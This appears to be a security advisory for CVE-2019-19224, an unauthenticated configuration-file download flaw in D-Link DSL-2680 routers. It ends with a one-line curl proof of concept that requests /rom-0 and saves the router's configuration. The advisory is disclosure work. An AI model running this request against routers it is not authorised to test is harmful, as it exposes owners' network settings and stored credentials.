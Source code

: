### CVE-2019-19224: DSL-2680 Broken Access Control - Download Router Configuration
**CVE:** CVE-2019-19224    
**Vulnerability Type**: Broken Access Control    
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Download router current configuration file without being authenticated on the admin interface    

**Description:**    
A Broken Access Control vulnerability in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) allows an attacker to 
download the current configuration file by submitting a `rom-0` GET request without being authenticated on the admin interface.

**Proof Of Concept:**    
As a proof-of-concept a GET request should be made to the following URI: `http://<x.x.x.x>/rom-0`    
After that the configuration file will be downloaded without authentication.    

Curl PoC (GET Request):    
```
curl http://192.168.1.1/rom-0 --output configFile
```
